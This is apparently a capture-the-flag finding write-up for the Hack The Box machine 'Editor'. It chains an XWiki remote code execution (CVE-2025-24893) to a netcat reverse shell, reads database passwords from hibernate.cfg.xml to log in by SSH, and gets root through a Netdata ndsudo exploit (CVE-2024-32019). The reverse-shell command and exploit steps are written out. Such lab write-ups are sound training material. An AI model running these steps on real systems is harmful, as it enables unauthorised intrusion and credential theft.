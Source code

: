 

# CVE-2025-24893 — Remote Code Execution

## Description

Editor.htb is vulnerable to unauthenticated remote code execution (RCE).

## Impact

Medium impact: allows access to sensitive information on the server which breaches CIA prinicples of confientiality. Ask mentor if can delete files?

## Likelihood

High: this vulnerablity does not require authentication to exploit.



## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver found.png" class="editors" alt="user found">










 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  








## Replication steps 
1. ` ls -l /usr/bin/pkexec /bin/pkexec 2>/dev/null || true`
2. google /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo vulnerablity 
3. Open https://github.com/T1erno/CVE-2024-32019-Netdata-ndsudo-Privilege-Escalation-PoC
4. Copy payload.c and CVE-2024-32019.sh
5. Create nvme file `gcc -static payload.c -o nvme -Wall -Werror -Wpedantic to create` 
6. transfer to ssh shell
7. run sh CVE-2024-32019.sh to get root shell 

 <img src="images/editor_priv_esc.png" class="editors" alt="editor priv esc">





